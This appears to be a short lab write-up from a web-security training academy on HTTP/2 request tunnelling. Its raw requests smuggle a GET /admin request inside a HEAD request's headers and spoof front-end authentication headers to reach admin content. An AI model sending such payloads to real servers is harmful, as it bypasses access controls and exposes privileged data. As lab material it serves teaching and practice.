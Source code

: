 *Request*
```http
HEAD / HTTP/2
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
```

*Response* (note the content length)
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=UlRoGsxzF1WIPqv4STh6K9TlSC51km3w; Secure; HttpOnly; SameSite=None
Content-Length: 8549             // this means that a GET request to / would have 8549 bytes in the response
X-Frame-Options: SAMEORIGIN
```

`HEAD` and `GET` content length are different and the application trigger a 500 Internal Server Error:
```http
:scheme: https
:method: HEAD
:path: /
:authority: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
cookie: session=ToBtqOGOcuW3Ki6R5x0mxIUJBMVOigOc
foo: bar

GET /admin HTTP/1.1
Host: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 7952412228922605

: bar

---

TTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Content-Length: 151

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Received only 3364 of expected 8526 bytes of data</h1></body></html>
```

Fixed the length targeting a different endpoint and exfiltrated `/admin` data:
```http
:scheme: https
:method: HEAD
:path: /login
:authority: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
cookie: session=ToBtqOGOcuW3Ki6R5x0mxIUJBMVOigOc
foo: bar

GET /admin HTTP/1.1
Host: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 7952412228922605

: bar

---

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=WW6JSoSrxjUPtCwnZX1iPvFkN8m4QCwf; Secure; HttpOnly; SameSite=None
```